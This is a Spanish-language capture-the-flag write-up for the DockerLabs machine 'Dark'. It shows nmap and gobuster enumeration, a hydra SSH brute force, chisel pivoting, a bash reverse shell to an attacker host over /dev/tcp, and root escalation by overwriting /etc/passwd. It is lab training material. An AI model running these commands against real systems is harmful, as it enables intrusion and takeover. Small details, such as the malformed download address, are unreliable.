 ```yaml
---
title: Dark
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```



iniciamos la maquina 

![[Pasted image 20241128143740.png]](/imagenes/Pasted%20image%2020241128143740.png)

escaneamos los puertos con nmap `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 10.10.10.0/24`

![[Pasted image 20241128143914.png]](/imagenes/Pasted%20image%2020241128143914.png)

entramos en el navegador 

![[Pasted image 20241128144002.png]](/imagenes/Pasted%20image%2020241128144002.png)

usamos gobuster para buscar directorios `gobuster dir -u "http://10.10.10.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241128144211.png]](/imagenes/Pasted%20image%2020241128144211.png)

encontramos algo interesante llamado info buscamos en el cuadro de busqueda la ruta info 

![[Pasted image 20241128144306.png]](/imagenes/Pasted%20image%2020241128144306.png)

encontramos un posible usuario y usamos hydra para encontrar la contrasena `hydra -l toni -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2 -t 10`

![[Pasted image 20241128144433.png]](/imagenes/Pasted%20image%2020241128144433.png)

entramos por ssh 

![[Pasted image 20241128144531.png]](/imagenes/Pasted%20image%2020241128144531.png)

desde la maquina atacante `chisel server --reverse -p 1234`; con este comando montamos un servidor en nuestra maquina atacante para que desde la maquina victima se pueda descargar el chisel `python3 -m http.server 80`


![[Pasted image 20241128144914.png]](/imagenes/Pasted%20image%2020241128144914.png)



usamos chisel para hacer pivoting con la maquina 20.20.20.3 que encontramos en info  con este comando descargamos chisel 
`curl -L http://172.0.1/chisel_1.10.1_linux_amd64 -o chisel` le damos permisos de escritura con el comando `chmod +x chisel` y corremos el chisel en modo cliente desde la maquina victima 


![[Pasted image 20241128144657.png]](/imagenes/Pasted%20image%2020241128144657.png)

ya con la conexion agregamos el proxi usamos foxyproxy

![[Pasted image 20241128145158.png]](/imagenes/Pasted%20image%2020241128145158.png)

vamos al navegador con la nueva direccion 20.20.20.3 

![[Pasted image 20241128145258.png]](/imagenes/Pasted%20image%2020241128145258.png)

probamos si se puede ejecutar codigo usamos id 

![[Pasted image 20241128145343.png]](/imagenes/Pasted%20image%2020241128145343.png)

asi que nos enviamos una revershell con el comando `bash -c 'bash -i >& /dev/tcp/20.20.20.2/4444 0>&1'` en la maquina atacante nos colocamos en escucha en el puerto 4444

![[Pasted image 20241128150246.png]](/imagenes/Pasted%20image%2020241128150246.png)

estando dentro le damos el tratamiento tty 
`script /dev/null -c bash`
`Control + z`
`stty raw -echo;fg`
`reset xterm`
`export TERM=xterm`
`export SHELL=bash`

![[Pasted image 20241128145714.png]](/imagenes/Pasted%20image%2020241128145714.png)

nos copiamos el contenido de /etc/passwd en el directorio tmp con el codigo `cp /etc/passwd /tmp/passwd`

![[Pasted image 20241128145849.png]](/imagenes/Pasted%20image%2020241128145849.png)

se modifica el contenido borrando la x en root para no tener la necesidad de una contrasena y luego se actualiza el archivo passwd en etc desde el archivo passwd tmp `curl file:///tmp/passwd -o /etc/passwd` verificamos que se hizo el cambio  `cat /etc/passwd`

![[Pasted image 20241128150102.png]](/imagenes/Pasted%20image%2020241128150102.png)

listo nos hacemos root 

![[Pasted image 20241128150210.png]](/imagenes/Pasted%20image%2020241128150210.png)



